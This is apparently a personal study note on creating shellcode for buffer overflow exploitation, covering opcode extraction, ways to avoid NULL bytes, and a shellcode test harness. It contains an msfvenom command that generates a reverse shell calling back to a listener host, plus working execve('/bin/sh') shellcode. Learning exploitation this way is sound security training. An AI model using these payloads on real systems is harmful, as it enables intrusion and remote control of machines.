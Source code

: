 # shellcode

## theory and definitions

Shellcode is the traditional name for the assembly opcodes that are used during exploitation of a buffer overflow vulnerability, resulting in a shell on the target. The assembly opcodes are what the CPU sees and understands during execution. We have a one to one mapping between assembly instructions and opcodes, everything comes back down to assembly and integers. Fundamentally, if we want the CPU to do something then an opcode must exist to communicate the task to the CPU. 

From an execution flow perspective, the `rip` register contains an address that points to the next opcode to execute. If we can store custom opcode somewhere inside a binary, then if we ever get control over the contents of `rip` register we can execute arbitrary assembly instructions. 


## creating shellcode

> these processes are more art than science, be prepared to be patient do some debugging. Strive to first get a minimal proof of concept

### manual methods

To manually create shell code, the operative must do the following

1. write desired functionality in assembly
2. create an object file with `nasm` or another assembler
3. disassemble with `objdump -D -M intel` to display the opcodes
4. extract the opcode strings from the text-glob output with tools such as `grep`, `sed`, `cut`, and `awk`
5. prepare the resulting hexadecimal string to be compliant with whatever syntax is used for the delivery method. Whether that is is `C-lang` or `python` or otherwise. 
6. Test the payload locally with an appropriate harness, see later on this page


#### cleaning shellcode, avoiding NULLs and bad chars

1. clean registers before use
	1. `xor rdx, rdx`
2. some instructions introduce nulls, such as `mov`. avoid them
	1. accomplish same task with multiple instructions. These instructions do not introduce NULLs:
		1. `add rdx, 0x01`
		2. `sub rdx, 0x01`
		3. `inc rdx`
		4. `dec rdx`
3. if you must use `mov` instruction, use minimal register size appropriate for size of integer
	1. `mov dl, 0x01 ; 1 byte into a 1 byte register`
4. use `rip` relative addressing and store data earlier in the text section to force an offset without NULLs. This is a result of the offset being expressed as a signed integer, a negative number, something like `0xfffffffffffffffc`

The `rip` relative addressing technique is best demonstrated through example. Consider the following assembly. Pay attention to the offset when assessing the output of `objdump -D -M intel`. The offset presents itself in the resulting opcode, this is why an offset such as `0x0000000000000002` introduces NULL bytes. 

```as
global _start

section .text

_start:

	jmp code
	hello_world: db 'hello world', 0x0a

code:
	
	mov al, 1
	xor rdi, rdi
	add rdi, 1
	lea rsi, [rel hello_world]
	xor rdx, rdx
	add rdx, 12
	syscall

	xor rax, rax
	add rax, 60
	xor rdi, rdi
	syscall
	
```

### tool assisted methods

The `msfvenom` utility of the Metasploit framework can be used to create all sorts of payloads, including shellcode. Example shown is for creating a reverse shell for a 64 bit linux target.

```bash
msfvenom -a x64 -p linux/x64/shell_reverse_tcp -b "\x00" -f c LHOST=10.10.10.10 LPORT=8000
```

Notes on the above command

- the `-b` flag allows us to declare "bad chars". Other bad chars include `"\xff"` , `"\x0a"`, and more depending on context of the vulnerability and the target. can be declared en masse via `-b "\xff\x00\x0a"`
- It is not necessary to use the other tools in Metasploit framework to catch the resulting connection, any socket listener will work.


## harness for testing shellcode

The following is shellcode to achieve: `execve( "/bin/sh", {"/bin/sh", NULL}, NULL )`

```c
"\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05"
```


```c
#include <stdio.h>
#include <string.h>

int main()
{
	unsigned char code[] = ""; // payload goes here after sed/regex or msfvenom
	
	printf(" shell length: %d\n", (int)strlen(code) );
	int (*ret) () = (int(*) ()) code;
	ret();
}
```
